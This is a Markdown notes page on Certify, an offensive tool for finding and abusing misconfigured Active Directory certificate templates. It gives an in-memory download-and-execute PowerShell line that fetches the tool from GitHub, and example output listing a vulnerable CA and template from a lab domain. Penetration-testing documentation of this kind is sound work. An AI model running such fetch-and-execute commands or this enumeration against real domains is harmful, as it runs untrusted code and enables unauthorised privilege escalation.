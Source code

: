 ```yaml
---
title : "Certify"
# pre : ' '
description : "Active Directory certificate abuse."
date : 2022-01-19T21:26:13+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'Active Directory', 'ADCS']
---
```


## Certify

Certify is a C# tool to enumerate and abuse misconfigurations in Active Directory Certificate Services (AD CS).

[@harmj0y](https://twitter.com/harmj0y) and [@tifkin_](https://twitter.com/tifkin_) are the primary authors of Certify and the the associated AD CS research ([blog](https://posts.specterops.io/certified-pre-owned-d95910965cd2) and [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)).

## Installation

Please compile the `.exe` yourself or use the PowerShell script below. The examples will use the PowerShell implementation.

```plain
iex((iwr https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Certify.ps1).content)
```

## Examples

### Identify vulnerable PKIs

```plain
PS Z:\> Invoke-Certify -Command 'find /vulnerable'

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=offsec,DC.nl'

[*] Listing info about the Enterprise CA 'offsec-DC01PKI-CA'

    Enterprise CA Name            : offsec-DC01PKI-CA
    DNS Hostname                  : DC01PKI.offsec.nl
    FullName                      : DC01PKI.offsec.nl\offsec-DC01PKI-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=offsec-DC01PKI-CA, DC=offsec, DC.nl
    Cert Thumbprint               : 2CFF52459C3F6C9BD541FDDAF3CC6F0EA72671CC
    Cert Serial                   : 1C0000000565446F3BBD81156A000000000005
    Cert Start Date               : 12/20/2021 6:34:12 AM
    Cert End Date                 : 12/20/2026 6:44:12 AM
    Cert Chain                    : CN=DC01PKI-N1-CA -> CN=offsec-DC01PKI-CA,DC=offsec,DC.nl
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated Users S-1-5-11
      Allow  Read, Enroll                               NT AUTHORITY\NETWORK SERVICE  S-1-5-20
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
      Allow  ManageCA, ManageCertificates               offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
    Enrollment Agent Restrictions : None

[!] Vulnerable certificate templates that exist but an Enterprise CA does not publish:

    ConfigMgrWebServerCertificate


[!] Vulnerable Certificates Templates :

    CA Name                         : DC01PKI.offsec.nl\offsec-DC01PKI-CA
    Template Name                   : UsersOffsecAD
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required  : 0
    pkiextendedkeyusage             : Client Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Domain Users       S-1-5-21-497837788-612300594-3587273769-513
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
      Object Control Permissions
        Owner                       : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
        WriteOwner Principals       : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
        WriteDacl Principals        : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
        WriteProperty Principals    : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519

C3rt1fy completed in 00:00:01.1902168
```

## URL List

- [Github.com - Certify](https://github.com/GhostPack/Certify)
- [Github.com - Certipy](https://github.com/ly4k/Certipy)
